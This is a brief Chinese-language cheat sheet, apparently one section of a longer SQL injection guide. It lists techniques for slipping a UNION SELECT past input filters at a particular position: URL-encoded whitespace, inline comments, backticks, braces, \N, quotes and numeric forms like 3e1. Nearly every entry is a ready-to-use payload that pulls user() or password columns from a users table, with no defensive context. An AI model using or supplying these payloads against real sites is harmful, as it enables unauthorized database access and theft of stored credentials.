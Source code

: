 





## 位置四

(1) 空白符

```
%09,%0a,%0b,%0c,%0d,%20,%23,%27

-1' union select 1,2,user()%23from users--+
```

(2)注释

```
/*!*/
/**/

-1' union select 1,2,user()/**/from users--+
```

(3) 反引号

```
1' union select 1,2,password ``from users`` --+
```



(4)花括号

```
1' union select 1,2,{x password}from users --+

1' union select 1,2,(password)from users --+
```

(5) 符号

\N

```
1' union select 1,password,\Nfrom users --+
```



单双引号

```
1' union select 1,user(),""from users --+
```



e .

```
1' union select 1,password,3e1from users --+

1' union select 1,password,3.1from users --+
```
